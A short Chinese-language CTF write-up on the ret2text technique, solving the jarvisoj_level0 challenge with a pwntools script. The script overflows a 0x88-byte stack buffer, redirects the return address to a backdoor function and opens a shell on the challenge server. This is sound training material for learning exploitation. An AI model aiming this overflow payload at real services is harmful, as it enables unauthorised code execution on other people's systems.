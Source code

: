 ```yaml
---
title: 【PWN】ret2text
---
```


## 原理

ret2text就是篡改栈帧上的返回地址为程序中已有的后门函数，我们需要知道对应返回的代码的位置。
## 例题
jarvisoj_level0，可在buuctf网站中下载。首先使用checksec工具查看它开了啥保护措施，基本全关。

![1.jpg](/assets/wgpsec/images/ret2text/1.jpg)

然后我们使用ida查看一下该程序，程序很简单,有明显的栈溢出漏洞和后门函数，后门函数地址就为0x40059A。

![2.jpg](/assets/wgpsec/images/ret2text/2.jpg)

![3.jpg](/assets/wgpsec/images/ret2text/3.jpg)

ida帮我们计算出来了buf字符串距离rbp有0x80个字节，由于rbp本身还占8个字节，所以溢出0x88个字节后将返回地址修改为后门函数的地址exp如下。

```python
 
from pwn import *

#p = process('./level0')
p = remote('node3.buuoj.cn',27644)
sys_addr = 0x40059A

payload = cyclic(0x88) + p64(sys_addr)

p.recv()
p.sendline(payload)
p.interactive()
```